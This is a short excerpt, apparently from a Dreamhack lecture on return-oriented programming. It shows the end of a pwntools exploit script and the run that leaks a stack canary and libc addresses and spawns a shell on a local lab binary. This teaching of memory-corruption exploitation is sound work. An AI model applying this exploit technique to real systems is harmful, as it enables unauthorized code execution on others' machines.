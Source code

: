 ```python
slog("libc_base", lb)
slog("system", system)

p.send(p64(system)+b"/bin/sh\x00")

p.interactive()
```

#

```bash
$ python3 exploit.py
[+] Starting local process './rop': pid 169
[*] '/home/ion/dreamhack/Exploit_Tech_Return_Oriented_Programming/rop'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[*] '/lib/x86_64-linux-gnu/libc.so.6'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[*] Loaded 14 cached gadgets for './rop'
[+] Canary: 0x405c612d86ffd200
[+] read: 0x7f298b542020
[+] libc_base: 0x7f298b432000
[+] system: 0x7f298b481420
[*] Switching to interactive mode

$ ls
core  exploit.py  rop  rop.c
```

#

---

<br>

> [Exploit Tech: Return Oriented Programming
](https://dreamhack.io/lecture/courses/84)
